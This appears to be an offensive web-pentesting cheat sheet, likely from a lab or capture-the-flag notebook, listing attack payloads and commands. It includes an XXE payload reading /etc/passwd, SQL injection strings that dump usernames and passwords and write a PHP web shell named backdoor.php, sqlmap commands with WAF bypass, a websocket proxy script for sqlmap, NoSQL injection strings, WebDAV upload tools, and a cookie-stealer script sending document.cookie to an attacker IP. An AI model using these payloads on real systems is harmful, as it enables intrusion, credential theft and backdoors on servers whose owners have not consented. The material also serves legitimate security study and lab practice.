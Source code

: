 # Cross Site Scripting (XSS)
:information_source: https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A7-Cross-Site_Scripting_(XSS)
:information_source: https://www.scip.ch/en/?labs.20171214 
:information_source: https://xss-game.appspot.com/
:information_source: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
:information_source: https://github.com/payloadbox/xss-payload-list
:information_source: https://tryhackme.com/room/learnowaspzap

# XML External Entities (XXE)
Basic idea: upload an xml to test if it gets parsed and then abusing the doctype definition (DTD).

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

# SQL Injection
## Resources
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
* https://github.com/payloadbox/sql-injection-payload-list

## Manual Enumeration
```
http://10.10.10.10/debug.php?id=1 order by 1 # increase until an error occurs to get number of columns

http://10.10.10.10/debug.php?id=1 union all select 1, 2, 3
http://10.10.10.10/debug.php?id=1 union all select 1, username, password
http://10.10.10.10/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
http://10.10.10.10/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

## sqlmap
* example commands
```
sqlmap --url http://10.10.128.77:8000/sqlpanel --tables --columns
sqlmap -r sqlpanel.request --dbms=sqlite --dump-all --tamper=space2comment
```
* capture sqlpane.request with burpsuite first
* --tamper=space2comment for trying to bypass WAF

# Server Side Template Injection (SSTI)
Server-side template injection is a vulnerability where the attacker injects malicious input into a template to execute commands on the server-side

* See https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
* Payload Generator: https://github.com/VikasVarshney/ssti-payload

## SQLi over websocket
sqlmap can not handle websocket requests therefore the following python script is needed to proxy the requests to the websocket:
```
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://localhost:8156/ws"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"employeeID":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```
adjust the port and path and execute it
in another terminal run
```
sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```

Make sure to try every syntax
```
*{}
${}
#{}
```

# NoSQL Injection
* https://book.hacktricks.xyz/pentesting-web/nosql-injection

Check with the following characters for NoSQL database (if the webserver is responding with a 50X response code)
```
'"\/$[].>

# Examples
username[$ne]=1$password[$ne]=1
username[$ne]=toto&password[$ne]=toto
username='"\/$[].>&password=admin
username=admin'||'1==1&password=admin
```

# WebDAV
WebDAV is an extenstion of HTTP that allows clients to perform remote Web content authoring operations. RFC4918.

## Resources
* [Blogpost from Nullbyte](https://null-byte.wonderhowto.com/how-to/exploit-webdav-server-get-shell-0204718/)
* HackTheBox: Granny 

## davtest
DAVTest tests WebDAV enabled servers by uploading test executable files, and then (optionally) uploading files which allow for command execution or other actions directly on the target.
```
davtest -url http://10.10.10.15
```

## cadaver
Cadaver is a simple command-line client, similar to for example the 'ftp' program. It has some advanced features such as lock-management, property management, DASL and version control support.
```
cadaver http://10.10.10.15/mfu
```

# Cookie Stealer
```
<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>
```

See Github Repo 'Redline'
